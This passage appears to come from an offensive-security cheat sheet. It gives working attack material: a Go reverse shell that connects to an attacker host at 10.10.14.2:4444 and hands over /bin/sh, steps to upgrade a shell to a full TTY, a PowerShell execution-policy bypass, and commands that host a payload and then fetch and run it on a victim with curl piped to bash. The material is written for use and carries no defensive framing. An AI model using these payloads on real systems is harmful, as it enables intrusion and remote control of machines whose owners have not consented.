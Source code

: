 ***

### XIII. 🧬 Golang Reverse Shell

```go
package main
import ("net";"os/exec";"syscall")
func main(){
  c,_ := net.Dial("tcp","10.10.14.2:4444")
  cmd := exec.Command("/bin/sh")
  cmd.Stdin,cmd.Stdout,cmd.Stderr = c,c,c
  cmd.Run()
}
```

Compile:

```bash
go build shell.go
```

***

### XIV. 🧩 Stabilizing a Shell (TTY Upgrade)

#### 🧠 Linux

After getting a shell:

```bash
python3 -c 'import pty; pty.spawn("/bin/bash")'
export TERM=xterm
Ctrl+Z
stty raw -echo; fg
reset
```

#### 🧩 Windows (via PowerShell)

```powershell
powershell -ep bypass
```

***

### XV. ⚙️ Web Delivery & Payload Hosting

#### 🧠 Host Shells

```bash
python3 -m http.server 8000
```

#### 💣 Fetch on Victim

```bash
wget http://10.10.14.2:8000/shell.sh -O /tmp/shell.sh
curl http://10.10.14.2:8000/shell.sh | bash
```
